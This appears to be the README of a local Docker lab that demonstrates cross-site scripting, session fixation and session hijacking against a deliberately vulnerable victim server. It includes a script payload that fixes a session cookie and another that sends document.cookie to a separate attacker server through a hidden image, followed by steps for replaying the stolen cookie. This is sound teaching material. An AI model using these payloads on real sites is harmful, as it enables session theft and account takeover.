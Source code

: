 # Quick Start

`docker-compose` up in `docker` folder

## Entrypoints

- Victim: `http://localhost:3000`
- Attacker: See Docker Logs

# Payloads

## XSS Check

Simple check to verify XSS is working:

### Check for session fixation

Login with: `admin` `istrator`

enter

`<script>document.cookie='connect.sid=12345;path=/'</script>`

if you are logged out, XSS is possible.

## Session Hijacking / get Cookies

### By Hidden Image

```
<script>img = document.createElement("img");img.src = "http://localhost/"+document.cookie;img.style.display = "none";x = document.getElementsByTagName("BODY")[0];x.appendChild(img);</script>
```
Goto other Browser:

e.g. Firefox:

- Web-Store
- Cookies
- Setup Path and value
- Call http://localhost:3000/sessionxss/protected

# Configuration in more Detail

## Docker 

### Single Docker Builds

#### Victim Server

goto `docker/victimserver` folder

`docker build -t sessionvictimserver .`
`docker run -ti --rm -p 127.0.0.1:3000:3000 sessionvictimserver`

visit [http://localhost:3000/sessionxss/login](http://localhost:3000/sessionxss/login)

#### Attacker Server

- goto `docker/attackerserver` folder
- run `docker build -t xss_attack_server .`
- run `docker run --rm -ti -p 127.0.0.1:80:80 xss_attack_server .`

## Just Code 

### Attacker Server
goto `docker/attackerserver/serverfiles`

### Victim Server
goto `docker/victimserver/files`

### Execution

- run: `node index.js`
- goto: `http://localhost:3000/sessionxss/login`